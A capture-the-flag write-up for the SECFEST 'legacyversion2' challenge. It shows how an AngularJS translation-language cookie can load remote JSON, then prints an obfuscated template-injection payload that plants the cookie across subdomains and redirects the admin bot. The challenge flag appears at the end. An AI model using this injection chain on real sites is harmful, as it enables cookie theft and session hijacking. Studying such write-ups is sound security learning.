






# legacyversion2
> Want some more legacy after solving legacy1?

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin. But we need to use a website from `legacy` chall. So the idea here, we need to redirect the admin to the `legacyversion2` and exploit XSS there.



And another website that using AngularJS. This website has a functionality to change the language from english to deutsch if we press website `German` or `English` button



## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `script.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var app = angular.module('myApp', ['ngCookies', 'pascalprecht.translate']);

app.config(['$translateProvider', function ($translateProvider) {
  $translateProvider.translations('en');
  // configures staticFilesLoader
  $translateProvider.useStaticFilesLoader({
    prefix: '',
    suffix: '.json'
  });
  // load 'en' table on startup
  $translateProvider.preferredLanguage('en');
  $translateProvider.useCookieStorage();
  
}]);
  
app.controller('Ctrl', ['$translate', '$scope', function ($translate, $scope) {
  
  $scope.changeLanguage = function (langKey) {
    $translate.use(langKey);
  };
}]);
```

This code sets up an AngularJS application with translation capabilities, allowing the user to switch between languages and store their language preference in a cookie. Now if we check the cookie on this website, you will see there are 2 cookies called `dummy` and `NG_TRANSLATE_LANG_KEY`



And then when I check the HTTP request when changing the language from english to germany, there is a request like this

```
GET /demo/de.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

After changing the cookie from en to de, I attempted to manually modify the cookie value to something random, such as dapppp. And here is the website looks like.



Looks broken right? And if we check the network tab on my browser, another request was sent with the following format:

```
GET /demo/dapppp.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

Soooo, what if we input my website that have a JSON file that contains the payload?

```json
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "Hi ",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```

I put this payload on Github Gist and then I changed the `NG_TRANSLATE_LANG_KEY` cookie value to `https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa`

And luckily my payload was working



Now we need to redirect the admin from `legacy` to `legacyversion2` website and we need to set the cookie to Gist Github link. But the problem is, how we can set the `document.cookie` between another subdomain?

The answer is "It's still possible". I was told by @dimasmaulana that we can share cookie between subdomain and he gave me this [reference](https://stackoverflow.com/questions/18492576/share-cookies-between-subdomain-and-domain) to read.

Here is the payload I used to solve this chall
```
document.cookie="NG_TRANSLATE_LANG_KEY=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa;domain=ctf.hackaplaneten.se";window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/");window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/demo/");
```

So we set the cookie first on `legacy1` and dont forget to add `;domain=ctf.hackaplaneten.se` because we need to set the cookie to another subdomain. And then redirect admin to `legacyversion2` webiste. And here is the final payload I used to solve this chall

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,61,34,78,71,95,84,82,65,78,83,76,65,84,69,95,76,65,78,71,95,75,69,89,61,104,116,116,112,115,37,51,65,37,50,70,37,50,70,103,105,115,116,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,37,50,70,100,97,102,102,97,105,110,102,111,37,50,70,100,56,99,98,100,54,56,97,53,98,52,50,57,102,55,52,50,51,48,52,48,98,49,48,100,49,51,53,100,100,49,54,37,50,70,114,97,119,37,50,70,56,55,54,102,56,54,51,102,53,54,48,97,54,102,55,53,48,51,56,101,99,99,102,55,97,100,50,52,50,102,101,102,99,53,99,97,100,49,100,100,37,50,70,97,59,100,111,109,97,105,110,61,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,34,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,34,41,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,100,101,109,111,47,34,41,59))')()}}
```

Send the URL to admin bot, and check the webhook



```
SECFEST{L3g@cy_rem3mb0rz_0r_m@yb3_n0t}
```